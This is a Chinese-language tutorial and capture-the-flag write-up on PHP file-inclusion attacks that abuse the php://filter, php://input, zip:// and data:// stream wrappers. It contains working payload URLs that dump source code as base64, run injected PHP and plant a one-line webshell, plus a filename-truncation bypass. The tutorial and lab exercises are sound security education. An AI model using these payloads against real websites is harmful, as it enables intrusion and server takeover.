










文件包含进阶（二）
# 文件包含进阶（二）
本篇讲述伪协议相关内容
# php 伪协议 php://
php:// — 访问各个输入 / 输出流（I/O streams）
# 说明
PHP 提供了一些杂项输入 / 输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符， 内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。
# php://stdin, php://stdout 和 php://stderr
php://stdin、php://stdout 和 php://stderr 允许直接访问 PHP 进程相应的输入或者输出流。 数据流引用了复制的文件描述符，所以如果你打开 php://stdin 并在之后关了它， 仅是关闭了复制品，真正被引用的 STDIN 并不受影响。 推荐你简单使用常量 STDIN 、 STDOUT 和 STDERR 来代替手工打开这些封装器。
php://stdin 是只读的， php://stdout 和 php://stderr 是只写的。
# php://input
php://input 是个可以访问请求的原始数据的只读流。 enctype="multipart/form-data" 的时候 php://input 是无效的。
# php://output
php://output 是一个只写的数据流， 允许你以 print 和 echo 一样的方式 写入到输出缓冲区。
# php://fd
php://fd 允许直接访问指定的文件描述符。 例如 php://fd/3 引用了文件描述符 3。
# php://memory 和 php://temp
php://memory 和 php://temp 是一个类似文件 包装器的数据流，允许读写临时数据。 两者的唯一区别是 php://memory 总是把数据储存在内存中， 而 php://temp 会在内存量达到预定义的限制后（默认是 2MB）存入临时文件中。 临时文件位置的决定和 sys_get_temp_dir() 的方式一致。
php://temp 的内存限制可通过添加 /maxmemory:NN 来控制， NN 是以字节为单位、保留在内存的最大数据量，超过则使用临时文件。
# php://filter
php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在 数据流内容读取 之前没有机会应用其他过滤器。
php://filter 目标使用以下的参数作为它路径的一部分。 复合过滤链能够在一个路径上指定。详细使用这些参数可以参考具体范例。
php://filter 参数
| 名称 | 描述 |
|---|---|
resource=<要过滤的数据流> |
这个参数是必须的。它指定了你要筛选过滤的数据流。 |
read=<读链的筛选列表> |
该参数可选。可以设定一个或多个过滤器名称，以管道符（ | ）分隔。 |
write=<写链的筛选列表> |
该参数可选。可以设定一个或多个过滤器名称，以管道符（ | ）分隔。 |
<；两个链的筛选列表> |
任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |
# 第一题 Bugku - 文件包含
打开题目后映入眼帘的是一个超链接，显示要点击

点击后发现是 GET 请求，参数是 file ，值是 show.php ，这很有文件包含的韵味。

本题，我们要使用的是 php://filter ，说白了就是为了读取文件用的。
示例 php://filter/read=<读链需要应用的过滤器列表>
这个参数采用一个或以管道符 | 分隔的多个过滤器名称。
<?php |
由于前台的代码我们是可以看得到的，后台代码我们能看得到么？
可以，前提是存在 文件包含漏洞 ，且使用 GET 请求。
然后使用 php://filter/read= ，配合 conver.base64-encode/resource=xxxxx 来提取后台的代码内容
http://114.67.175.224:11146/index.php?file=php://filter/read=convert.base64-encode/resource=show.php |
得到：
77u/PGh0bWw+DQogICAgPHRpdGxlPkJ1Z2t1LXdlYjwvdGl0bGU+DQogICAgDQo8P3BocA0KCWVycm9yX3JlcG9ydGluZygwKTsNCglpZighJF9HRVRbZmlsZV0pe2VjaG8gJzxhIGhyZWY9Ii4vaW5kZXgucGhwP2ZpbGU9c2hvdy5waHAiPmNsaWNrIG1lPyBubzwvYT4nO30NCgkkZmlsZT0kX0dFVFsnZmlsZSddOw0KCWlmKHN0cnN0cigkZmlsZSwiLi4vIil8fHN0cmlzdHIoJGZpbGUsICJ0cCIpfHxzdHJpc3RyKCRmaWxlLCJpbnB1dCIpfHxzdHJpc3RyKCRmaWxlLCJkYXRhIikpew0KCQllY2hvICJPaCBubyEiOw0KCQlleGl0KCk7DQoJfQ0KCWluY2x1ZGUoJGZpbGUpOyANCi8vZmxhZzpmbGFnezRjMTVlZGZmZGEwNDkyYWI2MDM2OTA2NTVmNTUzZDdifQ0KPz4NCjwvaHRtbD4NCg== |
解码：
<html> |
flag 已经出来：
flag{4c15edffda0492ab603690655f553d7b} |
# 第二题 php input 命令执行
点击 click 后会跳转到百度

我们发现 URL 很特殊：
http://www.lfi.com/php/php_input.php?file=http://www.baidu.com |
GET 请求，后面跟着一个 URL ，我们怀疑其存在文件包含漏洞。
尝试输入：
http://www.lfi.com/php/php_input.php?file=php://filter/read |

显示 hacker! ，说明 filter 伪协议被过滤掉了，不能用
我们使用 input 伪协议
http://www.lfi.com/php/php_input.php?file=php://input |

既然 phpinfo 成功执行，那么可以执行任意 php 语句
http://www.lfi.com/php/php_input.php?file=php://input |

使用 php 语句写入一个带一句话木马的文件
http://www.lfi.com/php/php_input.php?file=php://input |
使用菜刀连接：
http://www.lfi.com/php/mywebshell.php |
找到 flag.php

# 第三题 zip 协议
打开第三题，我们发现是一个和上传有关的界面

根据提示，我们可以上传 jpg 、 png 、 zip
那么我们选择上传一个包含有 webshell.php 的 jpg 压缩包
将其打包后，把 rar 后缀改成 jpg
点击上传，发现后台已经成功接收。

不过我们的目的是让其解析里面的 php 代码，我们需要使用到 zip 协议
http://www.lfi.com/php/php_zip.php?file=zip://C:\phpStudyB\WWW\lfi-labs-master\php\uploads\115a2563174161e1c5176e556e167ff8.jpg%23mywebshell |
注意：使用 zip 协议时，无论上传的后缀名如何，都会当成一个 zip 看待。
使用菜刀连接即可
# 第四题 data 协议
有文件包含漏洞， GET 请求，参数为 file ，我们尝试使用 data 协议插入 php 代码执行
注意，data 协议有两种用法：
data://text/plain, + 你想写入的php代码data://text/plain;base64, + xxxxxxxxx代码的base64编码xxxxxxxxx
http://www.lfi.com/php/php_data.php?file=data://text/plain,<?php phpinfo();?> |

http://www.lfi.com/php/php_data.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4= |
也是可以的。
# 第五题 利用操作系统特性绕过
在上传 backdoor.php 的时候，如果在后台中被强行加了个 .html 这样的后缀时
我们可以考虑使用 ........ (256 个 . ) 和 ././././././ ( 128 个 ./ ) 这样的形式进行绕过
因为在 windows 中，不允许文件以 . 和 / 进行结尾，且长度最大为 256 （ linux 是 4069 ）。